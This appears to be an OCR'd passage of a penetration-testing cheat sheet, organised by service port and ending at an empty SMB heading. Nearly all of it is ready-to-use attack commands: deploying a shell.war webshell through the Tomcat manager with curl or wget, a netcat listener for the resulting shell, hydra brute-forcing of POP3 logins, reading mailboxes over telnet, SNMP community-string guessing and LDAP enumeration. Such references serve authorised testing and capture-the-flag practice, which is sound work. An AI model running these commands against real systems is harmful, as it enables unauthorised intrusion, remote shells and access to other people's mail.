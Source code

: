 # Upload payload **

Tomcat6 :
> wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

**Tomcat7 and above :**
> curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener **
> nc -lvp <PORT>

# Execute payload **
> curl http://<IP>:8080/shell/

# POP3 - 110

**Brute force**
> hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
> hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V

**Read mail**
> telnet <IP> 110

> USER <USER>
> PASS <PASSWORD>
> LIST
> RETR <MAIL_NUMBER>
> QUIT


# SNMP - 161

**Brute force community string**
> onesixtyone -c /home/liodeus/wordlist/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt <IP>
> snmpbulkwalk -c <COMMUNITY_STRING> -v<VERSION> <IP>
> snmp-check <IP>


# LDAP - 389

**Scans**
> nmap -n -sV --script "ldap* and not brute"

> ldapsearch -h <IP> -x -s base
> ldapsearch -h <IP> -x -D '<DOMAIN>\<USER>' -w '<PASSWORD>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"

# SMB - 445
